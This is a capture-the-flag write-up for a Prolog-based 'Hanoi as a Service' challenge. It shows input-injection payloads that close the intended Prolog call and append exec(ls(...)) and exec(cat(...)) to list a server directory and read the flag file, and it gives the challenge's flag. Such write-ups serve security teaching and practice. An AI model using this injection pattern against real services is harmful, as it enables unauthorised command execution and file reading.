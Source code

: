 ### HANOI AS A SERVICE  
##### 50 points
Question
--
Check out our shiny new HaaS platform!  
`nc haas.polictf.it 80`

Readings
--
* https://en.wikipedia.org/wiki/Tower_of_Hanoi
* https://en.wikipedia.org/wiki/Prolog

Answer
--
Lets see what the service does:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
```
It seems there is a code to solve [hanoi problem](https://en.wikipedia.org/wiki/Tower_of_Hanoi). Now we try to give it some wrong input:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
hello hanoi
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(hello
ERROR: ** here **
ERROR: hanoi) .
```
It seems the code is written in [Prolog](https://en.wikipedia.org/wiki/Prolog) so now try to inject some codes:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), write('hello hanoi\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
hello hanoi
```  
Now we try to see files in the home directory of `hass`:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), exec(ls('/home/ctf/haas')), write('\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
haas
haas-proxy.py
jhknsjdfhef_flag_here
```
Oh yes there is a file named `jhknsjdfhef_flag_here` in the working directory so we try to see the contents:  
```
$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3), exec(cat('/home/ctf/haas/jhknsjdfhef_flag_here')), write('\n'
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```  

##### Flag: `flag{Pr0gramm1ng_in_l0g1c_1s_c00l}`
